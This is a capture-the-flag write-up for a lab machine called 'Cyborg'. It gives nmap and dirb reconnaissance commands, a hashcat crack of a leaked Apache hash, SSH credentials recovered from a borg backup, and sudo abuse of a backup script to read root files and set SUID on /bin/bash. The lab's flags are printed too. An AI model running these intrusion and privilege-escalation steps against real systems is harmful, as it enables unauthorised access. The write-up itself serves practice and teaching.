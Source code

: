 # Cyborg Lab Documentaion

Scanned the network with nmap :
```
nmap -sS -A <target ip>
```
Port 22 & 80 were open, so lets's visit the web 

let's do a directory bruteforce

```
dirb https://<ip>
```

discovered the admin path go there and download the **_archive.tar_**

extract the archive.tar with 
```
tar svf archive.tar
```

we should get another directory through dirb **/etc**

let's visit the page and go through it and you'll get **passwd**

we'll get the hash so save the contentes like this
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

let's identify the hash
```
echo '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > hash.txt
```
```
hashcat --identify hash.txt
```
then let's crack the hash with
```
hashcat -a 0 -m 1600 hash.txt /path/rockyou.txt
```
output:
```
$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
```

Now we can install borgbackup with 
```
sudo apt install borgbackup
```

then create a directory named anything i made *archive*\
while extracting the archive.tar it should give us a path use that path instead of bla bla\
`mkdir archive` & `borg mount /home/bla/bla/ archive` & enter the password we just cracked `squidward`

let's visit the archive folder and go through all the folders to find note.txt\
I found in documents 
```
alex:S3cretP@s3
```
looks like we go some creds let's use ssh to login 

then read the *user.txt*
<details>
    <summary>flag spoiler</summary>
    <p>flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}</p>
</details>

list out the programs we can use as alex with
```
sudo -l
```
read the code and see we can pass `c` flag to execute any code so let's do that
```
sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
```
then read the *root.txt*
<details>
    <summary>flag spoiler</summary>
    <p>flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}</p>
</details>

additionally we can use 
```
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```
then
```
bash
```
to get a root shell Bye 